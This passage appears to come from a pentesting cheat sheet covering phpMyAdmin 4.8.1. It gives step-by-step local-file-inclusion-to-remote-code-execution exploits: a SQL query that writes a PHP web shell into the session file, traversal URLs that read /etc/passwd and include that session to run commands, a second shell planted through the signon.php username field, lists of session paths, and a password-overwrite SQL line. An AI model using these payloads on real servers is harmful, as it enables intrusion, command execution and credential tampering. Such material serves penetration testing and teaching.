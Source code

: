 ```
UPDATE 'table' set 'pass' = 'pass1234' where 'table'.'ID' = 1;
```
{% endtab %}

{% tab title="4.8.1 - LFI to RCE (Manual)" %}
Go to SQL > execute query

```
SELECT '<pre><?php echo shell_exec($_GET["cmd"]);?>'
```

Note PHPMyAdmin **PHPESSID** **cookie** value and then run

{% code overflow="wrap" %}
```
http://$IP/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_$PHPMYADMIN_COOKIE&cmd=ls
```
{% endcode %}

Different paths for the PHP session

```bash
/var/lib/php/sessions/
/var/lib/php/session/
/var/lib/php5/sessions/
/var/lib/php5/sess_
# Windows: 
C:\Windows\Temp\
```

ANOTHER WAY

[https://cupuzone.wordpress.com/2018/07/23/a-little-study-about-latest-phpmyadmin-4-8-0-4-8-1-lfi-vulnerability/](https://cupuzone.wordpress.com/2018/07/23/a-little-study-about-latest-phpmyadmin-4-8-0-4-8-1-lfi-vulnerability/)

Test the vulnerability:

```
/index.php?target=db_sql.php%253f/../../../../../../../../../../../etc/passwd
```

Go to signon.php (examples/signon.php)and input this on username (shell between double quotes):

```php
<pre><?php echo shell_exec($_GET["shell"]);?>
```

Note the cookie **SignonSession** and then get RCE:

{% code overflow="wrap" %}
```
website.com/index.php?target=db_sql.php%253f/../../../../../../../../../../../var/lib/php/sessions/sess_vp5tmadp1jm0299tkqvk2rklml&shell=ls
```
{% endcode %}
{% endtab %}

{% tab title="4.8.1 exploit" %}
{% embed url="https://www.exploit-db.com/exploits/50457" %}
{% endtab %}
